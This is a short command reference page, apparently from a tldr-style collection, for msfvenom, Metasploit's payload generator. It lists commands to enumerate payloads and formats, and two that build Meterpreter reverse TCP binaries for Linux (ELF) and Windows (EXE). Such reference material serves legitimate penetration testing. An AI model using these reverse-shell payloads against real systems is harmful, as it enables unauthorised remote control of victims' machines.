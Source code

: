 # msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List Payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}`
